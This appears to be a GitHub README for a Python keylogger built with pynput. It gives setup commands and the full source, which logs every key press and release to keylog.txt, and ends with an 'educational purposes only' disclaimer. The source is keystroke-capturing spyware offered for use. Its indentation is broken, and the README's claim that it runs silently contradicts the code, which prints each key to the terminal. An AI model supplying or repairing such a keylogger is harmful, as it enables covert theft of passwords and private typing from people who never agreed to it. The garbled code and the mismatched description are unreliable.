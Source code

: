 🔑 Keylogger in Python 🖥️
📌 About
This is a basic keylogger built using Python and pynput library. It records all keystrokes and logs them into a file named keylog.txt. The keylogger runs in the background and captures both normal and special keys.

🚀 Features
✅ Logs all keystrokes (letters, numbers, and symbols)
✅ Records special keys (Enter, Space, Backspace, etc.)
✅ Stores keystrokes in a log file (keylog.txt)
✅ Runs silently in the background
✅ Safe exit by pressing ESC

🛠️ Installation
1️⃣ Clone the Repository:

bash
Copy
Edit
git clone https://github.com/Kalyan16114421/KeyLogger
cd keylogger-python
2️⃣ Install Dependencies:

bash
Copy
Edit
pip install pynput
3️⃣ Run the Keylogger:

bash
Copy
Edit
python keylogger.py
🛑 How to Stop the Keylogger?
🚀 Press ESC key to safely stop the keylogger.
🛑 Alternatively, use Ctrl + C in the terminal to force stop it.
🔴 If running in the background, end "Python" process via Task Manager.

📜 Code Implementation
'''python

    from pynput import keyboard

    def on_press(key):
    try:
      print(f"Alphanumeric key '{key.char}' pressed") # Print to terminal
      with open("keylog.txt", "a") as f:
         f.write(f"Alphanumeric key '{key.char}' pressed\n")
     except AttributeError:
      print(f"Special key '{key}' pressed") # Print to terminal
      with open("keylog.txt", "a") as f:
        f.write(f"Special key '{key}' pressed\n")

     def on_release(key):
     print(f"'{key}' released") 
      #print to terminal
      with open("keylog.txt", "a") as f:
      f.write(f"'{key}' released\n")

      if key == keyboard.Key.esc:
      # Stop listener
      return False

      #Collect events until released
      with keyboard.Listener(
     on_press=on_press,
     on_release=on_release) as listener:
      listener.join()
    
⚠️ Disclaimer
🛑 This project is for educational purposes only.
🔴 Unauthorized use of keyloggers is illegal. Use it responsibly.
